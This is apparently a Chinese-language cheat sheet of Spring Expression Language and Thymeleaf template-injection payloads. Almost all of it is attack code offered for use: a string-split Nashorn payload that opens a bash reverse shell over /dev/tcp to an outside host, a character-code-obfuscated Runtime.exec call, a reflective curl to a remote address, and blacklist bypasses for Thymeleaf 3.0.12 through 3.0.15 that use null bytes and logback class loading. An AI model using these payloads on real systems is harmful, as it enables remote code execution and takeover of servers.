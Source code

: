 `#{T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='/bin/bash';s[1]='-c';s[2]='ex"+"ec 5<>/dev/tcp/1.2.3.4/2333;cat <&5 | while read line; do $line 2>&5 >&5;done';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")}`

`T(java.lang.Runtime).getRuntime().exec(  T(java.lang.Character).toString(111).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(112)))`

`''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'curl 172.17.0.1:9898')`

##### 高版本绕过

* 3.0.12

```txt
__%24%7b%00new+java.util.Scanner(T+(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d__
```

* 3.0.13

```txt
%24%7b%00new+java.util.Scanner(%00T(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d
```

* 可控模板文件内容，核心在于绕过黑名单类，可过3.0.15

```java
[[${T(ch.qos.logback.core.util.OptionHelper).instantiateByClassName("org.springframework.expression.spel.standard.SpelExpressionParser","".getClass().getSuperclass(),T(ch.qos.logback.core.util.OptionHelper).getClassLoader()).parseExpression("T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('calc')").getValue()}]]
```



### SpEL注入回显

##### 非通用回显

* 依赖组件`org.apache.commons.io`

```java
T(org.apache.commons.io.IOUtils).toString(payload).getInputStream())
```
